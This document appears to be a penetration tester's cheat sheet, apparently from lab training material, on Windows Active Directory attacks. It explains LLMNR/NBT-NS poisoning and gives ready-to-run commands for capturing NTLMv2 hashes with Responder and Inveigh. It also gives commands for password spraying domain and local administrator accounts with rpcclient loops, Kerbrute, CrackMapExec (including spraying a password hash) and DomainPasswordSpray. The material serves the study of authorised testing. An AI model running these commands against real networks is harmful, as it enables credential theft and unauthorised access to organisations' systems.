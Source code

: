 ## LLMNR & NBT-NS Primer

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails. If a machine attempts to resolve a host but DNS resolution fails, typically, the machine will try to ask all other machines on the local network for the correct host address via LLMNR.

LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. It uses port **5355** over **UDP** natively. If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. NBT-NS utilizes port **137** over **UDP**.

### Issue

The kicker here is that when LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply. 

### LLMNR/NBT-NS Poisoning

1. A host attempts to connect to the print server at \\print01.inlanefreight.local, but accidentally types in \\printer01.inlanefreight.local.
2. The DNS server responds, stating that this host is unknown.
3. The host then broadcasts out to the entire local network asking if anyone knows the location of \\printer01.inlanefreight.local.
4. The attacker (us with Responder running) responds to the host stating that it is the \\printer01.inlanefreight.local that the host is looking for.
5. The host believes this reply and sends an authentication request to the attacker with a username and NTLMv2 password hash.
6. This hash can then be cracked offline or used in an SMB Relay attack if the right conditions exist.

## Responder

```bash
## Start Responder with default settings
sudo responder -I ens224

## Any captured hash etc will be logged to /usr/share/responder/logs
## Hashes are saved in the format (MODULE_NAME)-(HASH_TYPE)-(CLIENT_IP).txt
```

## Inveigh (Zero)

If we end up with a Windows host as our attack box, our client provides us with a Windows box to test from, or we land on a Windows host as a local admin via another attack method and would like to look to further our access, the tool Inveigh works similar to Responder, but is written in PowerShell and C#.


### Using Inveigh
```powershell
Import-Module .\Inveigh.ps1

## Check options
(Get-Command Invoke-Inveigh).Parameters

## LLMNR and NBNS spoofing
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

### C# Inveigh (InveighZero)

The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version, which combines the original PoC C# code and a C# port of most of the code from the PowerShell version.

```powershell
.\Inveigh.exe
```

## Password Spraying - Linux

### Bash one-liner attack

```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

### Kerbrute

```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

### CrackMapExec

```bash
## Using CrackMapExec & Filtering Logon Failures
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

## Validate credentials
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

### Local Administrator Password Reuse

When working with local administrator accounts, one consideration is password re-use or common password formats across accounts. If we find a desktop host with the local administrator account password set to something unique such as $desktop%@admin123, it might be worth attempting $server%@admin123 against servers. 

```bash
## Local Admin Spraying with CrackMapExec
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

## Password Spraying - Windows

### DomainPasswordSpray Powershell

Source: https://github.com/dafthack/DomainPasswordSpray

```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
